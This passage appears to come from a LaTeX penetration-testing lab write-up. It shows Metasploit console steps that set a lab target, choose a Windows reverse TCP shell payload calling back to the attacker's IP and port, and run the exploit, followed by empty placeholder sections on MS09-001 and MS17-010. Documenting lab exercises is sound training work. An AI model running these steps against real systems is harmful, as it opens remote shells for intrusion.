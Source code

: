 \begin{lstlisting}[language=bash]
$ set RHOST 10.10.10.130
$ show payloads
$ set payload windows/shell_reverse_tcp
$ show options
$ set LHOST 10.10.10.1
$ set LPROT 8443
$ show target
$ set target 6
$ show options
\end{lstlisting}

\begin{figure}[H]
\begin{center}
\includegraphics[width=\textwidth]{show2.png}
\end{center}
\end{figure}

\begin{lstlisting}[language=bash]
$ exploit
\end{lstlisting}

\begin{figure}[H]
\begin{center}
\includegraphics[width=\textwidth]{exploit.png}
\end{center}
\end{figure}

\subsection{MS09-001}
some content

\subsection{MS17-010}
some content
